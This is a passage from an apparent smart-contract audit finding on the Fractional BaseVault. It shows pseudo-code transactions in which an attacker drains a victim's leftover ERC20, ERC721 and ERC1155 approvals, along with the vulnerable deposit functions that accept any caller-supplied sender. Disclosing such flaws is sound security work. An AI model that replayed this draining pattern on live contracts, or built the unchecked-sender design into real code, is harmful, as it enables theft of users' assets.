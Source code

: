     erc20.approve(address(baseVault), type(uint256).max);
    erc721.setApprovalForAll(address(baseVault), true);
    erc1155.setApprovalForAll(address(baseVault), true);

Alice decided to deposit `50` XYZ ERC20 tokens, APE #1 ERC721 NFT, and `50` ABC tokens to the vault by calling `baseVault.batchDepositERC20`, `baseVault.batchDepositERC721`, and `baseVault.batchDepositERC1155` as shown below:

    baseVault.batchDepositERC20(alice.addr, vault, [XYZ.addr], [50])
    baseVault.batchDepositERC721(alice.addr, vault, [APE.addr], [#1])
    baseVault.batchDepositERC1155(alice.addr, vault, [ABC.addr], [#1], [50], "")

An attacker notices that there is residual allowance left on the `baseVault`, thus the attacker executes the following transactions to steal Alice’s assets and send them to the attacker’s wallet address.

    baseVault.batchDepositERC20(alice.addr, attacker.addr, [XYZ.addr], [950])
    baseVault.batchDepositERC721(alice.addr, attacker.addr, [APE.addr, APE.addr], [#2, #3])
    baseVault.batchDepositERC1155(alice.addr, attacker.addr, [ABC.addr], [#1], [950], "")

[https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L58](https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L58)

    function batchDepositERC20(
        address _from,
        address _to,
        address[] calldata _tokens,
        uint256[] calldata _amounts
    ) external {
        for (uint256 i = 0; i < _tokens.length; ) {
            IERC20(_tokens[i]).transferFrom(_from, _to, _amounts[i]);
            unchecked {
                ++i;
            }
        }
    }

[https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L77](https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L77)

    function batchDepositERC721(
        address _from,
        address _to,
        address[] calldata _tokens,
        uint256[] calldata _ids
    ) external {
        for (uint256 i = 0; i < _tokens.length; ) {
            IERC721(_tokens[i]).safeTransferFrom(_from, _to, _ids[i]);
            unchecked {
                ++i;
            }
        }
    }
